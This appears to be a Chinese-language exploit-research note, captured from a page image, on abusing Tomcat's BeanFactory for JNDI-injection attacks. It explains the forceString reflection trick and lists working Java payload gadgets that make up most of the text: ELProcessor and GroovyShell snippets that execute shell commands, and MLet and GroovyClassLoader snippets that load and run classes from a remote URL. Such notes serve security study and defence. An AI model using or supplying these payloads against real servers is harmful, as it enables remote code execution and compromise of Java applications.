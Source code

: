 #### org.apache.naming.factory.BeanFactory

实现JNDI规范接口`javax.naming.spi.ObjectFactory`

- `BeanFactory#getObjectInstance`存在反射调用
  - 反射Reference.className并newInstance()实例化
  - 从Reference.addrs读取forceString的键值对。
  - 如果包含=，则按=等于号分割成 `propName` 和 `param`
  - method限制：参数数量是1，类型是String；原本逻辑是调用setter方法


- 利用条件
  - 目标className必须无参构造函数`getConstructor().newInstance()`限制
  - 反射method可控，限制作用域public
  - method参数类型：一个String类型

##### 符合条件的类
 `javax.el.ELProcessor#eval(String.class)`执行EL表达式执行

```java
  ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
  ref.add(new StringRefAddr("forceString", "x=eval"));
  ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','calc']).start()\")"));

```
  `groovy.lang.GroovyShell#evaluate(String scriptText)`GroovyShell元编程执行任意代码

  ```java
  ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
  ref.add(new StringRefAddr("forceString", "QI4L=evaluate"));
  ref.add(new StringRefAddr("QI4L", "'" + cmd + "'.execute()"));
  ```
  
  `javax.management.loading.MLet#addURL`和`loadClass`远程加载class

```java
    ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
    ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
    ref.add(new StringRefAddr("b", "http://127.0.0.1:8888/"));
    ref.add(new StringRefAddr("c", "Blue"));

```

`groovy.lang.GroovyClassLoader#addURL`和`loadClass`远程加载class

```java
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
    ref.add(new StringRefAddr("a", "http://127.0.0.1:8888/"));
    ref.add(new StringRefAddr("b", "blue"));

```
